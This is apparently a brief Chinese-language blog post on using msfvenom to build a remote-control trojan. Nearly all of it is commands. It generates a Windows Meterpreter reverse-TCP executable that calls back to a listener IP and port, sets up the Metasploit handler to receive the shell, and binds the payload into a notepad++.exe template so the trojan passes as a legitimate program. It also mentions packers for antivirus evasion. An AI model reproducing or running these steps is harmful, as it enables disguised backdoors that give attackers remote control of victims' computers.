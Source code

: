 # Msfvenom生成远控木马


```
//mfsvenom 用来生成后面软件，在目标机执行后面，本地监听
//mfsvenom 在shell里面使用

//放木马
msfvenom -p【payload】 windows/x64/meterpreter/reverse_tcp【payload_name：系统/构架/作用/方式】 lhost=192.168.123.136 lport=9999【payload设置 】 -f【format格式】 exe【Windows内可执行文件】 -o【output】 demo.exe

```
```
//远控木马放进去后监听
use exploit/multi/handler
set payload  windows/x64/meterpreter/reverse_tcp
set lhost 192.168.123.136
set lport 9999
run
```
```
//免杀木马
	//捆绑木马【原始】
    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.123.136 lport=9999 -f exe -x【模板】 notepad&#43;&#43;.exe -o notepad&#43;&#43;.exe
    //加壳：压缩壳，加密壳
```

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2023web-msfvenom%E7%94%9F%E6%88%90%E8%BF%9C%E6%8E%A7%E6%9C%A8%E9%A9%AC/  

